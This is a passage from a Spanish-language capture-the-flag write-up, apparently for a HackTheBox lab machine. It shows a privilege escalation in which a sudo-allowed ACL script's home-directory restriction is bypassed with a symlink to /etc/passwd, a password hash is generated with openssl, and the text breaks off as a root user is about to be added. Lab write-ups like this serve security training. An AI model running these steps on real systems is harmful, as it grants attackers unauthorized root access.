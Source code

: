 ```bash
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

El script restringe modificaciones a archivos fuera de /home/mtz/.


Voy a intentar dar permisos al archivo /etc/passwd

```bash
mtz@permx:~$ ls -l /opt/acl.sh
-rwxr-xr-x 1 root root 419 Jun  5 11:58 /opt/acl.sh
mtz@permx:~$ sudo /opt/acl.sh
Usage: /opt/acl.sh user perm file
mtz@permx:~$ sudo /opt/acl.sh mtz rxw /etc/passwd
Access denied.
```
Pero el script lo bloqueó porque no está en /home/mtz/.

## <span style="color:#aaff00">Bypass con Enlace Simbólico</span>

Voy a crear un enlace simbólico a /etc/passwd en /home/mtz/ 

```bash
mtz@permx:~$ ln -s /etc/passwd passwd
mtz@permx:~$ sudo /opt/acl.sh mtz rxw /home/mtz/passwd
```
Ahora voy a usar 'openssl passwd' para convertir la contraseña en un hash que puede usarse para almacenar la contraseña de manera segura, sin mostrarla en texto claro.

```bash
mtz@permx:~$ openssl passwd
Password: 
Verifying - Password: 
$1$jMhrugue$TM9roeBjO3Np3zhZuYh7S/
mtz@permx:~$ nano passwd 

```

Editamos /etc/passwd para agregar un usuario root:
